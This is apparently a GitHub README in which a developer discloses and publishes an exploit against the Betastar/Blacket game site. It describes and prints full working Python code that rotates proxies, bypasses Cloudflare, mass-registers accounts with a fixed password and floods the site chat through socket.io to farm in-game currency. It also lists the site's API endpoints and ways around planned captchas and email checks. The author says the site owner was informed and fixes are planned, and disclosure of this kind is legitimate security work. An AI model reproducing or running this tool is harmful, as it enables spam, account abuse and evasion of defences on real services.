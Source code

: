 ## I (l2vy7) discovered a HUGE spam exploit on Betastar.
All Betastar/Blacket API endpoints are insecure, and everyone knows that.  
But now, since Betastar has a chat function, and its insecurity makes exploits very awful.  


### How it's made: TrollSense for Betastar
Basically, I made a separate (private) proxy generator, and copied over the proxies to proxies.txt in the folder, and set up a proxy looper.  
I also implemented a CloudFlare bypassing ```requests``` wrapper because I'm not waiting hours for Undetected ChromeDriver to work.  
Since all logins are ip-based, and each time you load a page in Betastar, it checks with the login information provider, you don't even have to work with any HTTP cookies or anything. Just direct IPs, you can even skip the login information checking process if you want.  
After that, I just loop through the proxies, make accounts with random names and the password "THEWORLDISONFIRE", check for invalid proxies, rinse and repeat.  
Then, I find existing accounts and extend the current accounts if the accounts file exists.  
Finally, I loop through the working ips with accounts linked to them, use a requests session to connect to the chat server via a socketio-python client and the current proxy, and emit ```smes``` with a set message attached.  
The funny thing is that each chat message gives you 1 "atom" (currency of Betastar), and you can trade them in almost the same way you use the chat, by connecting with socket.io. I don't have the time or patience to implement trading yet, but it goes like so:

the trade menu is almost handled the same way as the chat, you just emit ```trade``` with the value of the user you want to request, ```cancelTrade``` to cancel the trade, handle ```accepted``` for when the trade is accepted, handle ```tradeCancelled``` for when the trade is cancelled, etc.

a get request to ```/api/claim``` automatically claims a daily reward  
a get request to ```/api/user?name=(username)``` lists the stats of a user (equivalent to ```f4``` in game for the api)  
a get request to ```/api/news``` lists the news posts  
a get request to ```/api/lcheck``` checks if you're logged in  
a get request to ```/api/elements``` gets a list of all the buyable elements  
a get request to ```/api/crates``` gets a list of all the buyable crates  
a get request to ```/lib/api/config``` does nothing it seems unless you're the owner.  
a post request to ```/api/sell/``` with the data ```element=(element)&quantity=(quantity)``` sells an element with a specified quantity  

Xotic did send me, while we were talking over Discord, a list of all the endpoints. Unfortunately, I am busy and don't have the time to document ALL of them and what they do, but I do have the list of every endpoint in the API.

![image](https://user-images.githubusercontent.com/102484505/171060995-2f8df054-8ba4-46bf-a461-b03cd3827685.png)


### How it stopped being made: Communication with Xotic.
He will implement captchas (can be bypassed with 2captcha and/or API endpoints will be left vulnerable) on registration pages, along with possible email verification (can be bypassed by Tempmail APIs). However, the API endpoints may still be insecure. I will update this if necessary and will try to give Xotic instructions on how to fix it.
Though I'm not entirely sure if this will affect socket.io data or the registration API, I'm 99% sure he will do something to stop this from working.  

I just kept this here as a documentation on how vulnerable websites can be easily exploited.  
**I'm helping Xotic fix this. Please note that I meant no harm in making this exploit.**

## The full code
I know you skids want the code, so here we go.  
This took around 45 minutes to an hour to develop and proxy scraping took like 30 minutes.

```py
from requests.exceptions import *
from os.path import exists
from faker import Faker
import cloudscraper
import traceback
import requests
import socketio
import logging
import random
import string
import base64
import sys

fake = Faker()

ips = []

for x in open('proxies.txt', 'r').read().split('\n'):
    scraper = cloudscraper.create_scraper(
        browser={
            'browser': 'chrome',
            'platform': 'android',
            'desktop': False
        },
        disableCloudflareV1=True
    )

    try:
        resp = scraper.post("http://betastar.org/api/register/", headers = {"User-Agent" : fake.chrome()}, data=("username=" + ''.join(random.choices(string.ascii_uppercase + string.digits, k = 7)) + "&password=" + base64.b64encode("THEWORLDISONFIRE".encode("utf-8")).decode("utf-8") ), proxies={"http" : 'http://'+x})
        print('Account created.')
        ips.append(x)
    except ProxyError as e:
        pass
    except HTTPError as e:
        pass
    except TooManyRedirects as e:
        pass
    except Exception as e:
        pass

if exists('accounts.txt'):
    ips.extend(open('accounts.txt', 'r').read().split('\n'))

for x in ips:
    with open('accounts.txt', 'w') as x1:
        x1.write(x + '\n')
    session = requests.session()
    session.proxies = {"http" : "http://"+x}
    sio = socketio.Client(http_session=session)
    sio.connect(
        'http://betastar.org/chat/',
        transports='websocket'
    )
    sio.emit('smes', 'Insecure API endpoint test worked.')
    sio.disconnect()
```

## What happens next?

What Xotic is implementing now:
- Proxy blacklists (from the code of my proxy scraper)
- Cooldown spam mutes/bans
- Prevention of using the same IP for multiple accounts (1 alt maximum per IP)
- socket.io socket security

We've talked this over together and found this to be a good idea and good things to implement.  
Therefore, this exploit will be patched very soon. Don't worry, this is just a documentation of how the API COULD be exploited, and I have done nothing to ruin the economy or harm the website in any way.

**Some of this was made from what I posted on my pr ([here](https://github.com/XOTlC/Blacket/pull/51#issuecomment-1141480027))**
